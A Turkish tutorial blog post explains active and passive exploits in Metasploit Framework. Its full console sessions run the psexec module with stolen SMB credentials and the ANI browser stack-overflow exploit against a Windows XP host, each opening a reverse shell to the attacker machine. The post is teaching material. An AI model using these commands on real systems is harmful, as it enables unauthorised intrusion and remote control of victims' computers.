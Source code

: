 ```yaml
---
draft: false
title: MSF İçinde Exploit Çeşitleri
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde tüm exploit modülleri aktif ve pasif olarak gruplandırılırlar.
url: /tr/msf-icinde-exploit-cesitleri/
featured_image: /images/metasploit.jpg
weight: 60
translation_key: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Çeşitleri
keywords:
  - exploit
---
```



Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.

## Aktif Exploit

Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.

Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.

Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.

```bash
msf exploit**(**ms08_067_netapi**)** > exploit -j
> Exploit running as background job.
msf exploit**(**ms08_067_netapi**)** >
```

## Aktif Exploit Örneği

Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.

```bash
msf > use exploit/windows/smb/psexec
msf exploit**(**psexec**)** > set RHOST 192.168.1.100
RHOST **=>** 192.168.1.100
msf exploit**(**psexec**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**psexec**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**psexec**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**psexec**)** > set SMBUSER victim
SMBUSER **=>** victim
msf exploit**(**psexec**)** > set SMBPASS s3cr3t
SMBPASS **=>** s3cr3t
msf exploit**(**psexec**)** > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service **(**ciWyCVEp - "MXAVZsCqfRtZwScLdexnD"**)**...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage **(**240 bytes**)**
> Command shell session 1 opened **(**192.168.1.5:4444 -> 192.168.1.100:1073**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Pasif Exploit

Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.

Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.

Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.

```bash
msf exploit**(**ani_loadimage_chunksize**)** > sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Pasif Exploit Örneği

Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit**(**ani_loadimage_chunksize**)** > set URIPATH /
URIPATH **=>** /
msf exploit**(**ani_loadimage_chunksize**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**ani_loadimage_chunksize**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**ani_loadimage_chunksize**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**ani_loadimage_chunksize**)** > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
>  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit**(**ani_loadimage_chunksize**)** >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow **(**HTTP**)** to 192.168.1.100:1077...
> Sending stage **(**240 bytes**)**
> Command shell session 2 opened **(**192.168.1.5:4444 -> 192.168.1.100:1078**)**

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}

